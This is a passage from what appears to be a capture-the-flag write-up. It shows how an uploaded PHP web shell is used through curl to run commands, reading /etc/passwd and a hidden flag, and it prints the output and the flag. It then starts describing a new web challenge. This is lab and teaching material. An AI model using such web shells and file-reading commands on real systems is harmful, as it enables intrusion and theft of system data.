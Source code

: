 Send it to the server and visit the `/uploads` to find out the upload we sent. After that just play around until flag hits.

![14](../assets/posts/HackHavocCTF/14.png)

```php
└─$ curl http://35.208.110.64/uploads/1001/cmd.php?cmd=cat%20/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<>
vc24ky07:x:1001:1002::/home/vc24ky07:/bin/bash
ssslu:x:1002:1003::/home/ssslu:/bin/bash
choudhary:x:1003:1004::/home/choudhary:/bin/bash
sv24ky07:x:1004:1005::/home/sv24ky07:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mr:x:1005:1006::/home/mr:/bin/bash
gc:x:1006:1007::/home/gc:/bin/bash
rc24cs01:x:1007:1008::/home/rc24cs01:/bin/bash
mysql:x:114:122:MySQL Server,,,:/nonexistent:/bin/false
└─$ curl http://35.208.110.64/uploads/1001/cmd.php?cmd=cat%20.hidden_flag
CTF{3sc4l4t3d_t0_r00t}
```

Flag: `CTF{3sc4l4t3d_t0_r00t}`

## Web

### **Hashing Numbers**

**Description**: To access its secrets, you must first prove your worth by calculating a mathematical expression, a test of both intellect and skill. Will you rise to the challenge and secure the sensitive information, or will the secrets remain forever locked away? The choice is yours.

Flag structure: `CM{XXX-###_##}`
